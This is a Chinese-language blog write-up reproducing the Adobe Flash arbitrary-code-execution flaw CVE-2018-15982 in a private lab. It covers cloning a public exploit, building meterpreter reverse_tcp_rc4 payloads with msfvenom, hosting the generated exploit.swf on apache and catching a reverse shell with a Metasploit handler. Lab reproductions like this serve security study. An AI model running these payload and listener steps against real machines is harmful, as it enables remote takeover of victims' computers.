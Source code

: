 ```yaml
---
title: CVE-2018-15982任意代码执行漏洞复现
date: 2019-08-8 15:20:00
author: dylan
top: false
cover: false
password: 
categories: web安全
tags: 
    - 漏洞复现
    - CVE-2018-15982
    - 任意代码执行
---
```

# 0x01 漏洞概述
2018年11月29日，360高级威胁应对团队在全球范围内第一时间发现一起针对俄罗斯的APT攻击行动，通过一份俄文内容的医院员工问卷文档，携带最新的Flash 0day漏洞和具有自毁功能的专属木马程序，该漏洞（CVE-2018-15982）允许攻击者恶意制作的Flash对象在受害者的计算机上执行代码，从而获取对系统命令行的访问权限。

***
# 0x02 影响版本

* AdobeFlash Player <= 31.0.0.153
* AdobeFlash Player Installer<= 31.0.0.108
（不包括AdobeFlash Player 32.0.0.101、AdobeFlash Player Installer 31.0.0.122）

***
# 0x03 漏洞复现
## 复现环境
攻击机：Linux kali (192.168.159.136)
靶机：windows7 x64（192.168.159.133）
Flash版本: Adobe Flash Player ActiveX_29.0.0.155
链接: [Adobe Flash Player ActiveX_29.0.0.155](https://pan.baidu.com/s/1S5hbsREkhWv_b1zyn-rQUg)
提取码: c8sf 
(注意：断网安装)

## 复现过程
**kali:**

**git 漏洞POC**
`git clone https://github.com/Ridter/CVE-2018-15982_EXP`

msfvenom生成两个payload程序（32位和64位）
`msfvenom -p windows/meterpreter/reverse_tcp_rc4 RC4PASSWORD=ZALE LPORT=4444 LHOST=192.168.159.136 -f raw > 86.bin`

`msfvenom -p windows/meterpreter/reverse_tcp_rc4 RC4PASSWORD=ZALE LPORT=4444 LHOST=192.168.159.136 -f raw > 64.bin`

![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20190808144511.png)

**生成POC**
将生成的两个`.bin`文件copy进下载的POC文件夹，
并cd进去，执行.py文件生成POC
```
cp *.bin CVE-2018-15982_EXP/
cd CVE-2018-15982_EXP/
python CVE_2018_15982.py -i 86.bin -I 64.bin
```

![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20190808144751.png)

开启apache服务，并将生成的两个文件copy进html目录

```
systemctl start apache2.service
cp index.html /var/www/html
cp exploit.swf /var/www/html
```

![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20190808145202.png)

**设置msf监听**

启动msf

`msfconsole`

![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20190808145436.png)

```
use exploit/multi/handler 
set payload windows/meterpreter/reverse_tcp_rc4
set lport 4444
set lhost 192.168.159.136
set RC4PASSWORD zale
exploit
```

![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20190808145507.png)

**靶机:**

使用靶机访问`192.168.159.136/index.html`

![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20190808150229.png)

成功反弹session
![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20190808145952.png)

`sessions -l`
显示会话列表

`sessions id`
选择指定id会话
![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20190808150006.png)

***
# 参考文章
[CVE-2018-15982任意代码执行漏洞复现](https://www.freebuf.com/column/197760.html)